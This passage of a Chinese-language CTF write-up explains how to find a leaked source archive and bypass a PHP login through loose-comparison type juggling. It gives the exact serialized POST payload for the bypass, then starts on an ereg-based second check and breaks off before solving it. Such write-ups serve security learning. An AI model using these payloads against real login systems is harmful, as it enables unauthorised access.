 跑出`47733`

```
/index.php?source=47733

```

即可得到源碼包的下載地址`/WoShiYuanMa_SGBM.zip`

0x02 登陸的腦洞
----------

```
$password = unserialize($_POST['password']);
if($_POST['username']='admin' && $password['username'] !== 'admin' && $password['password'] !== 'admin'){
    if ($password['username'] == 'admin' && $password['password']=='admin') {
        $_SESSION['login'] = 1;
        echo "<center style=\"font-size:36px;\"><a href=\"main.php\">Click jump to the Backstage</a></center>";
    }

```

一開始以為是**unserialize**的腦洞，仔細看看代碼才發現是php的特性雙等號（==）的弱類型轉換漏洞。

```
(0 == "str")=>true
(0 === "str")=>false

```

即構造**POST**：

```
username=admin&password=a:2:{s:8:"username";i:0;s:8:"password";i:0;}&submit=1

```

成功擼過~

0x03 二次驗證
=========

* * *

```
if (isset($_POST['salt']))
{
    if (ereg("^[a-zA-Z0-9]+$", $_POST['salt']) === FALSE)
    {
        exit('ereg');
    }
    elseif (strlen($_POST['salt']) < 11 && $_POST['salt'] > 999999999)
    {
        if (strpos($_POST['salt'], '*SGBM*') !== FALSE)
        {
            $_SESSION['admin'] = 1;
            echo "<center style=\"font-size:36px;\"><a href=\"./admin/index.php\">Click jump to the Backstage</a></center>";
        }

```
